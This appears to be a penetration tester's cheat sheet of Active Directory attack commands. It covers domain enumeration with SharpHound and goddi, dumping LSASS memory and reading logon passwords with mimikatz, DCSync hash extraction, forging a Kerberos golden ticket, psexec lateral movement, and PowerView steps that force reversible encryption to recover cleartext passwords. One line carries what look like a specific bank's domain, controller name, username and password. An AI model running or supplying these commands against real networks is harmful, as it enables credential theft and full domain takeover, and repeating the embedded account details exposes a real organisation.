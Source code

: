 Running sharphound 

runas.exe /netonly /user:completedomainname\userid cmd.exe         complete fqdn eg. domainname.local

SharpHound.exe -c All -d sbmbank.local --IgnoreLdapCert -v




Running goddi 

goddi-windows-amd64.exe  -dc="MUMSBMADS2.sbmbank.local" -domain="sbmbank.local" -username="IA80000" -password="P@ssword"  -unsafe


PinCastle for Active directory audit.  
Scan Open shares 


Lazesoft for getting local admin credentials from the PC 

Lazesoft-Recover-My-Password-Home  

https://www.lazesoft.com/forgot-windows-admin-password-recovery-freeware.html

****************************************************************************
getting dump 

C:\procdump.exe -accepteula -ma lsass.exe lsass.dmp

mimikatz

mimikatz # sekurlsa::minidump lsass2.dmp <br>
mimikatz # sekurlsa::logonPasswordsfull


**************************************************************************


ntds.dit getting hashes of users

Run from the context of the domain admin

lsadump::dcsync /domain:pentestlab.local /all /csv



lsadump::dcsync /domain:pentestlab.local /user:test <br>
By specifying the domain username with the /user parameter Mimikatz can dump all the account information of this particular user including his password hash.


****************************************************************************************************
Creating golden ticket

We can run these commands from a non domain administrator 

commands to run from mimikatz <br>
kerberos::golden /user:evil /domain:pentestlab.local /sid:S-1-5-21-3737340914-2019594255-2413685307 /krbtgt:d125e4f69c851529045ec95ca80fa37e
/ticket:evil.tck /ptt


the string after krbtgt i.e. 'd125e4f69c851529045ec95ca80fa37e' is the ntml hash that we get after running the lsadump command in mimikatz

come out of mimikatz and run the command <br> 
<b> <i>klist  </i></b>

This will list all the tickets

you can now use pushd or psexec  to login to the domain controller from the current session using the golden ticket

psexec.exe \\adserver.domainame\ cmd.exe  <br>
pushd \\adserver.domainname\ 


Reference links :
https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-golden-tickets  <br>
https://adsecurity.org/?p=1515    ( Detecting forged kerberos tickets) 

*****************************************************************************

mitm 6

https://github.com/fox-it/mitm6

pip install -r requirements.txt <br>
pip install mitm6   or python setup.py install <br>



********************************************************************************

Responder links 

https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/ <br>
https://blog.geoda-security.com/2018/11/gaining-foothold-using-responder-and.html     ( using responder ntlmrelayx and empire ) 
 



************************************************************************************

forcing reversible encryption on user accounts

lsadump::dcsync /domain:pentestlab.local /user:test

when we run the above command we get the ntml hashes. However, we can get clear text credentials if the password is configured as reversible encryption. however, reversible encryption is generally disabled by the gpo. We can force reversible encryption on a user by using a powershell script from PowerView 
Note: we need to have domain admin credentials to be able to run the script successfully. We need to run the script once the user is locked. If the user is running the downgrade does not work. 

if we are running from a non domain system use runas using the domain admin credentials. 

We will download powerview and import the module <br>
<b>Import-Module powerview.psm1 </b>

We then run the command <br>
<b>Invoke-Downgrade -SamAccountName username which is to be downgraded  </b>


The script does the following 


 DONT_EXPIRE_PASSWORD is set, we need to flip that with Set-ADObject -SamAccountName USER -PropertyName useraccountcontrol -PropertyXorValue 65536.

Then we can set ENCRYPTED_TEXT_PWD_ALLOWED with Set-ADObject -SamAccountName USER -PropertyName useraccountcontrol -PropertyXorValue 128.

We can then manually set pwdlastset to 0, which forces the user to change their password on next login Set-ADObject -SamAccountName USER -PropertyName pwdlastset -PropertyValue 0.

Now the user will be forced to change the password once he logs in. Once the user changes the password it will be stored in reversible encrytion form in the ad database 

WE can now run the 

lsadump::dcsync /domain:pentestlab.local /user:test and we will get credentials 

Invoke-Downgrade -SamAccountName username -Repair 



<b>Imp links: </b>

https://www.harmj0y.net/blog/redteaming/targeted-plaintext-downgrades-with-powerview/  <br>
https://github.com/PowerShellEmpire/PowerTools<br>
https://www.c0d3xpl0it.com/2018/06/active-directory-attack-dcsync.html<br>
